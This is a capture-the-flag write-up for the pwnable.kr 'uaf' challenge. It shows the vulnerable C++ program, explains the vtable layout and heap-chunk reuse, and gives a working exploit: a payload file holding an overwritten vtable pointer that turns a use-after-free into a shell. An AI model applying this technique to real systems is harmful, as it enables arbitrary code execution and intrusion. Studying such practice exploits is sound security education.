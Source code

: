 # pwnable.kr -- Toddler's Bottle -- uaf

## 1. Challenge

```
Mommy, what is Use After Free bug?  

ssh uaf@pwnable.kr -p2222 (pw:guest)  
```

## 2. Solution

Connect target via ssh and see source code:

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
    virtual void give_shell() {
        system("/bin/sh");
    }
protected:
    int age;
    string name;
public:
    virtual void introduce(){
        cout << "My name is " << name << endl;
        cout << "I am " << age << " years old" << endl;
    }
};

class Man: public Human{
public:
    Man(string name, int age){
        this->name = name;
        this->age = age;
    }
    virtual void introduce(){
        Human::introduce();
        cout << "I am a nice guy!" << endl;
    }
};

class Woman: public Human{
public:
    Woman(string name, int age){
        this->name = name;
        this->age = age;
    }
    virtual void introduce(){
        Human::introduce();
        cout << "I am a cute girl!" << endl;
    }
};

int main(int argc, char* argv[]){
    Human* m = new Man("Jack", 25);
    Human* w = new Woman("Jill", 21);

    size_t len;
    char* data;
    unsigned int op;
    while(1){
        cout << "1. use\n2. after\n3. free\n";
        cin >> op;

        switch(op){
                case 1:
                        m->introduce();
                        w->introduce();
                        break;
                case 2:
                        len = atoi(argv[1]);
                        data = new char[len];
                        read(open(argv[2], O_RDONLY), data, len);
                        cout << "your data is allocated" << endl;
                        break;
                case 3:
                        delete m;
                        delete w;
                        break;
                default:
                        break;
        }
    }

    return 0;
}
```

We can see if we choose `"3. free"` and then choose `"1. use"`, it is a classical behavior called `"use after free"`. In this situation, we could not guarantee that it is the member function `introduce()` that is called.

If you do not know why, let's see the memory layout of each class:

| offset |             class Human               |              class Man             |                class Woman           |
|--------|---------------------------------------|------------------------------------|--------------------------------------|
|   +0   | a pointer to `Human` class's vftable  | a pointer to `Man` class's vftable | a pointer to `Woman` class's vftable |
|   +8   |               int age                 |               int age              |               int age                |
|   +16  |           std::string name            |           std::string name         |           std::string name           |
|   +24  |                 (end)                 |                (end)               |                 (end)                |

But what does the vftable of each class looks like? Well, you can see it in IDA:  

![vftables](vftables.png)

Now let's see how virtual function is called:

![call_virtual_func](call_virtual_func.png)

We can obviously see the program looks for vftable first, then calls the second function pointer which points to its own `introduce()` function.

In the mean time you can see the third function pointer in the vftable points to a shell function that can help us get a shell. So if we try to modify the pointer that points to vftable, a wrong function wound be called when the program wants to call `introduce()`.

We know the size of each class' objects is 24 bytes. And the two objects, `m` and `w`, are allocated at heap. After the two objects are deleted/released, the corresponding two heap chunks are marked free. If we allocate a heap chunk which has the same size with the size of the two objects, the address returned would probably be equal to `Human* m` or `Human* w`.

Here's the solution:

```bash
uaf@ubuntu:~$ python3 -c "print('\x68\x15\x40\x00\x00\x00\x00\x00')" > /tmp/payload
uaf@ubuntu:~$ ./uaf 24 "/tmp/payload"
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
$
```
